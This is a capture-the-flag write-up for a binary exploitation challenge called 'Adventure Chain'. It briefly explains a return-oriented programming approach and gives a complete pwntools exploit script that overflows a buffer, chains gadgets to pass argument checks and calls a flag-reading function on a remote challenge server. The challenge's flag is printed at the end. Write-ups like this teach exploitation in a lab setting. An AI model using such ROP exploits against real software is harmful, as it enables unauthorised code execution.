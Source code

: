 # Adventure Chain

### Challenge Author

[b3y0nd3r](https://twitter.com/GeethaTk)

### Challenge Description

Kathleen is on her next adventure, which marked her name in history of Computer Science forever. Looks like the pieces of her ARC code seem to be brewing something notorious. Follow the chains which might lead you to a hideous place where you can claim your mastery and discover the unintended invention

### Short writeup

Use ROPgadgets to bypass the argument checks and finally call the function which reads flag.txt. 

```python
from pwn import *
#p = process("./chall")
p = remote('34.72.218.129',4444)

p.sendlineafter(">> ","1")

pop_rdi = p64(0x0000000000400a93)
pop_rsi_r15 = p64(0x0000000000400a91)
assert_ = p64(0x00000000004007d7)
setValue = p64(0x00000000004007ec)
flag = p64(0x000000000040082c)

#exp = "a"*56 + auth + pop_rdi + p64(0xdeadbeef) + add_bal + pop_rdi + p64(0xba5eba11) + pop_rsi_r15 + p64(0xbedabb1e) + p64(0xbedabb1e) + flag

exp  = "a"*40
exp += assert_
exp += pop_rdi + p64(0xdeadbeef)
exp += setValue
exp += pop_rdi + p64(0xdeadc0de)
exp += pop_rsi_r15 + p64(0xdead10cc) + "a"*8
exp += flag
#gdb.attach(p)
p.sendlineafter("Enter your name:",exp)
p.interactive()
```


### Flag

shaktictf{r0pe_climbing_chaining_1337_way}

